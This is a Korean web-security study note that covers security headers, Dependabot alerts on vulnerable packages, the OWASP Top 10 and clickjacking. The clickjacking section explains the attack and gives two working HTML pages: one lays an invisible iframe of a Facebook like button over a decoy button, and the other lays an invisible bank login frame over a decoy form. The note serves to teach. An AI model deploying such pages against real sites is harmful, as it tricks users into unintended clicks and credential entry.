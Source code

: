 ### 8. 보안 헤더 확인

[https://securityheaders.com/](https://securityheaders.com/을)

<br/>

## 취약점이 있는 패키지 사용 X

깃허브의 `Dependabot`이 발견한 취약점은 필요하다면 빠르게 조치해야 한다.

<br/>

## OWASP Top 10

OWASP은 Oepn Worldwide (Web) Application Security Project라는 오픈 소스 웹 어플리케이션 보안 프로젝트를 말한다.

주로 웹에서 발생할 수 있는 정보 노출, 악성 스크립트, 보안 취약점 등을 연구하며, 주기적으로 10대 웹 어플리케이션 취약점을 공개하는데 참고해보자.

<br/>

## 클릭 재킹

사용자가 인지하지 못한 상태에서 다른 페이지의 요소를 클릭하도록 유도하는 보안 공격이다. 보이지 않는 프레임 안에 다른 페이지를 삽입하고, 사용자가 특정 버튼이나 특정 링크를 클릭하게 만들어 의도하지 않은 행동을 하게 된다.

### 클릭 재킹 예시

`페이스북 좋아요 버튼 클릭 재킹`

사용자는 Click Me라는 버튼을 클릭한다고 생각하지만 실제로는 페이스북의 좋아요 버튼을 클릭하게 된다.

```html
<html>
  <body>
    <h1>Click the button to win a prize!</h1>
    <button style="position:relative; z-index:2;">Click Me!</button>
    <iframe
      src="https://www.facebook.com/plugins/like.php?href=https://example.com"
      style="position:absolute; top:0; left:0; width:100px; height:30px; opacity:0; z-index:1;"
    ></iframe>
  </body>
</html>
```

<br/>

`뱅킹 사이트 로그인 클릭 재킹`

사용자가 다른 버튼을 클릭하거나 정보를 입력한다고 생각하지만, 실제로는 은행 로그인 페이지에 정보를 입력하고 로그인 버튼을 클릭하게 된다.

```html
<html>
  <body>
    <h1>Enter your information to continue</h1>
    <form style="position:relative; z-index:2;">
      <label for="username">Username:</label>
      <input type="text" id="username" name="username" /><br />
      <label for="password">Password:</label>
      <input type="password" id="password" name="password" /><br />
      <button type="submit">Submit</button>
    </form>
    <iframe
      src="https://bankingwebsite.com/login"
      style="position:absolute; top:0; left:0; width:300px; height:200px; opacity:0; z-index:1;"
    ></iframe>
  </body>
</html>
```
